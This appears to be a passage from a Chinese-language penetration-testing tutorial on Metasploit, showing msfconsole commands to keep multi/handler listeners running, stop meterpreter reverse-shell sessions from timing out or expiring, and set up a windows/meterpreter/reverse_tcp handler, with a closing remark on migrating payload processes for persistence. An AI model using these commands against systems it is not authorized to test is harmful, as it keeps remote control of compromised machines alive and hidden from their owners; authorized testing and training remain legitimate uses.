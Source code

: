 ## 防止假session

在实战中，经常会遇到假session或者刚连接就断开的情况，这里补充一些监听参数，防止假死与假session。

```
msf exploit(multi/handler) > set ExitOnSession false   //可以在接收到seesion后继续监听端口，保持侦听。

```
## 防止session意外退出
```
msf5 exploit(multi/handler) > set SessionCommunicationTimeout 0  //默认情况下，如果一个会话将在5分钟（300秒）没有任何活动，那么它会被杀死,为防止此情况可将此项修改为0

msf5 exploit(multi/handler) > set SessionExpirationTimeout 0 //默认情况下，一个星期（604800秒）后，会话将被强制关闭,修改为0可永久不会被关闭
```

## handler后台持续监听

```
msf exploit(multi/handler) > exploit -j -z
```
使用`exploit -j -z`可在后台持续监听,-j为后台任务，-z为持续监听，使用Jobs命令查看和管理后台任务。`jobs -K`可结束所有任务。

还有种比较快捷的建立监听的方式，在msf下直接执行：
```
msf5 > handler -H 10.211.55.2 -P 3333 -p windows/meterpreter/reverse_tcp
```
会生成监听

<img src=images/02/image(5).png>

## payload的可持续化

一般来说使用msfvenom生成的payload会单独开启一个进程，这种进程很容易被发现和关闭，在后期想做持久化的时候只能再使用`migrate`进行。
